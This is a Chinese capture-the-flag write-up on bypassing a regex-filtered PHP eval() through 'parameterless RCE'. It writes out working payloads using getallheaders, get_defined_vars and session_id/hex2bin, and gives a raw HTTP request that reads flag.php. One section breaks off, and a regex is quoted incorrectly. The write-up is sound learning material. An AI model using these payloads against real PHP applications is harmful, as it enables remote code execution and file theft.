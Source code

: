 git 泄露得到 index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

`@eval` 的命令执行，但是过滤了伪协议，过滤了一些关键字。

在这里，正则表达式 `'/[a-z,]+((?R)?)/'` 匹配的是一个函数调用字符串，其中 `[a-z,]+` 表示函数名可以由多个小写字母或下划线组成，`((?R)?)` 表示函数调用可以有零个或多个参数，且参数可以是一个函数调用字符串。这里使用了递归子表达式 `(?R)`

举个例子，输入 `foo(bar(baz())`，正则表达式会匹配 `"bar(baz())"`，将其替换为空，得到 `"foo()"`

这里就是一道典型的无参 RCE，之前还没有看过，正好可以借着这道题目学习一下。

### 常见绕过姿势

#### 1、getallheaders()

![getallheaders](getallheaders.png)

`getallheaders()`返回所有的HTTP头信息，但是要注意的一点是这个函数返回的是一个数组，而eval()要求的参数是一个字符串，所以这里不能直接用，这时我们就要想办法将数组转换为字符串。正好`implode()`这个函数就能胜任。

![getallheaders](implode.png)



`implode()`能够直接将`getallheaders()`返回的数组转化为字符串。
本地测试代码：

```php
<?php
	echo implode(getallheaders());
?>
```

![getallheaders](getallHeadersTest.png)

这里是可以打印出我们所有的 Header 信息的。

如果题目的伪代码是长这样的话，可以通过 UA 或者其他 Header 去包含我们需要执行的命令即可 RCE

```php
<?php
	if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']){
 		     eval($_GET['exp']);
	}
?>

```

![getallheaders](getallheadersRCE.png)

#### 2、get_defined_vars()

![getallheaders](get_defined_vars.png)

该函数的作用是获取所有的已定义变量，返回值也是数组。不过这个函数返回的是一个二维数组，所以不能与 `implode` 结合起来用。将`get_defined_vars()` 的结果用 `var_dump()` 输出结果如下：

```php
<?php
	var_dump(get_defined_vars());
?>
```

![getallheaders](defineVarsResult.png)

可以看到用GET传入的参数会被显示在数组中的第一位：

![getallheaders](inputLaysFirst.png)

不过这里有这么多的数组，我们也不需要全部查看是吧？那么使用 `current()` 函数就可以办成这个事情:

![getallheaders](current.png)

函数可以返回数组中的单元且初始指针指向数组的第一个单元。因为 GET 方式传入的参数存在该二维数组中的第一个一维数组（也就是上图 `array(7)` 中的第一个数组 `["_GET"]=> array(1) { ["get"]=> string(1) "a" }`），所以我们可以通过这个函数将其取出来（官方这个演示很详细了，可以自己看看）。

```php
<?php
    var_dump(current(get_defined_vars()));
?>
```

也就是通过这一种方式，可以构造出上述情景当中的 payload

```payload
?exp=eval(end(current(get_defined_vars())));&shell=phpinfo();
```

![getallheaders](endget_defined_vars.png)

#### 3、session_id()

![getallheaders](sessionID.png)

官方说：`session_id()` 可以用来获取/设置当前会话 ID。
那么可以用这个函数来获取 cookie 中的 php sessionid 了，并且这个值我们是可控的。
但其有限制：

文件会话管理器仅允许会话 ID 中使用以下字符：a-z A-Z 0-9 ,（逗号）和 - （减号）

解决方法：将参数转化为 16 进制传进去，之后再用 `hex2bin()` 函数转换回来就可以了。

![getallheaders](hex2bin.png)

所以，payload可以为：`?exp=eval(hex2bin(session_id()));`
但 `session_id` 必须要开启 session 才可以使用，所以我们要先使用 `session_start`。
最后，`payload：?exp=eval(hex2bin(session_id(session_start())));`

说到这里，这套组合拳还差了点东西，你还没写你要执行的代码！
不是才说道 `session_id()`可以获取 cookie 中的 phpsessionid，并且这个值我们是可控的吗？所以我们可以在 http 头中设置PHPSESSID 为想要执行代码的16进制：`hex("phpinfo();")=706870696e666f28293b`

所以最终组合拳这样打：




### 姿势一、array_reverse()

使用我们的第一个payload：`?exp=print_r(scandir(current(localeconv())));`看到flag.php的位置。

### 姿势二、session_id()

```http
GET /?exp=show_source(session_id(session_start())); HTTP/1.1
Host: ac98df9c-999f-4cf0-9021-0e2913f6b943.node4.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=flag.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,ja;q=0.5,zh-TW;q=0.4,no;q=0.3,ko;q=0.2
Connection: close


```











